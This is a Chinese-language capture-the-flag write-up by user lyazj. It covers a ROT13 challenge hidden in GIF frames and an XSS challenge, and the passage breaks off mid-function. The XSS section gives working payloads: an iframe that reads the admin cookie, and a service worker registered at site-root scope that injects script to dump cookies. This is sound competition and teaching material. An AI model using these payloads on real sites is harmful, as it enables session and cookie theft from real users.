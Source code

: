 # [lyazj](https://github.com/lyazj) 的题解

本题解尽量按照我成功解决问题的时间顺序进行撰写，但不会将同一大题的不同小题（如有）分开进行讲述。

## 一眼盯帧

GIF 闪烁太快，可以使用在线或离线工具进行分帧后再读取。一个更为简单的方法是使用 mpv 播放器打开它，连续按几下 [ 键减速，而后通过金山打字技能得到如下字符串：

```
synt{jrypbzrgbtrrxtnzr}
```

首先借助 Python 进行最简单的猜测：

```python
>>> list(map(lambda x, y: ord(x) - ord(y), 'synt', 'flag'))
[13, 13, 13, 13]
```

太棒了，这个题目没想为难人。结合“所有字母均为小写”的题目提示，立即写出解题算法：

```python
>>> ''.join(map(lambda x: chr((ord(x) - 0x60 + 13) % 26 + 0x60), 'synt{jrypbzrgbtrrxtnzr}'))
'flagnwelcometogeekgamep'
```

现在尝试提交 `flag{welcometogeekgame}`，过了！



## 第三新XSS

题目分为 HTTP 和 HTTPS 两个部分。HTTP 的 bot 逻辑为在 admin 页面设置 cookie，访问我注册的页面，打印浏览器标题；HTTPS 的 bot 逻辑为访问我注册的页面，新建 session，访问 admin 页面并设置 cookie，打印浏览器标题；中间有若干秒量级的等待时间，可用于加载资源或执行攻击操作。

HTTP 部分思路直接，因为所有用户的主页同源，可以直接在 iframe 中访问子页面的 DOM 对象，所以解法十分简单：

```html
<iframe id="page" src="/admin/" onload="document.title = page.contentDocument.cookie"></iframe>
```

用上面的代码注册一个主页，将其 HTTP 开头的链接输入给 bot，即得到第一个 flag。HTTPS 部分我在第二阶段放出提示后才根据网上资料摸索出来。主要的思路是在自己注册的页面上注册一个 service worker，并设置其作用域为站点根目录，来截获当前站点下用户代理所有的请求流量，从而能够篡改 admin 的主页。具体地，注册一正常的 HTML 主页如下：

```html
<script>
navigator.serviceWorker.register("/sw/", {scope: "/"}).then(res => {
  console.log("Service worker registered in scope: " + res.scope);
});
</script>
```

取名为 hack。再以包含 Service-Worker-Allowed 字段的响应头注册一主页，实际存放 Javascript 代码：

```javascript
// {"Content-Type": "application/javascript", "Service-Worker-Allowed": "/"}
console.log("Hello from service worker!");

let body = "<script>function dumpCookie() { ";
body += "document.title = document.cookie; ";
body += "setTimeout(dumpCookie, 100); ";
body += "} ";
body += "dumpCookie();</script>";
console.log(body);

let headers = {"Content-Type": "text/html"};
console.log(headers);

function respond() {
  return new Response(body, {headers: headers});
```